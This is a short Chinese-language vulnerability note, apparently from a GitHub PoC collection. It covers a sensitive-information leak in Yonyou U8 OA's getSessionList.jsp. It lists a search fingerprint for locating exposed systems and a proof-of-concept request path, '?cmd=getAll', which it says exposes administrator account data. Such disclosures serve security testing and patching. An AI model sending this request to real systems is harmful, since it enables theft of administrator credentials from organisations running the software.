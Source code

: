 # 用友 U8 OA getSessionList.jsp 敏感信息泄漏漏洞

## 漏洞描述

用友 U8 OA getSessionList.jsp文件，通过漏洞攻击者可以获取数据库中管理员的账户信息

## 漏洞影响

```
用友 U8 OA
```

## 网络测绘

```
"用友U8-OA"
```

## 漏洞复现

登录页面

![image-20220520141805589](./images/202205201418731.png)

验证POC

```
/yyoa/ext/https/getSessionList.jsp?cmd=getAll
```

![image-20220520141832426](./images/202205201418464.png)